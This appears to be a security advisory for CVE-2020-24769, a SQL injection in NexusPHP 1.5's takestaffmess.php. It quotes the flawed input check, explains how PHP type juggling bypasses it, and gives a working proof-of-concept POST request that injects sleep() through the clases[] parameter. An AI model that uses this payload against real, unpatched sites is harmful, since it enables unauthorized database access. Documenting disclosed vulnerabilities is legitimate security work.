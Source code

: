# by burpheart

# CVE-2020-24769

Need get the administrator's identity to complete the attack.

#### Affected software: NexusPHP 1.5

#### Software Download Link: http://sourceforge.net/projects/nexusphp/
#### fixed version: nexusphp v1.6.0-beta2 https://github.com/xiaomlove/nexusphp/releases

#### Github Repository https://github.com/xiaomlove/nexusphp


##  Vulnerability details

#### takestaffmess.php:line 16

```	
$updateset = $_POST['clases'];
if (is_array($updateset)) {
	foreach ($updateset as $class) {
		if (!is_valid_id($class) && $class != 0)
			stderr("Error","Invalid Class");
	}
}else{
	if (!is_valid_id($updateset) && $updateset != 0)
		stderr("Error","Invalid Class");
}
$subject = trim($_POST['subject']);
$query = sql_query("SELECT id FROM users WHERE class IN (".implode(",", $updateset).")");
```
Although the source code uses the is_valid_id function to check the contents of the clases but because of the php type conversion when the class is non-numeric when compared to zero will get an equal result and thus is_valid_id is invalid.
#### exploit:
```
POST /takestaffmess.php HTTP/1.1
Host: localhost
Cookie: administrator_cookies
Content-Length: 66
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*

clases[]=sleep(2)&msg=1&receiver=1&returnto=&sender=self&subject=1
```

clases[]=sleep(2)&msg=1&receiver=1&returnto=&sender=self&subject=1

The return will be delayed for 2 seconds  

clases[]=sleep(0)&msg=1&receiver=1&returnto=&sender=self&subject=1

The return will be delayed for 0 seconds  
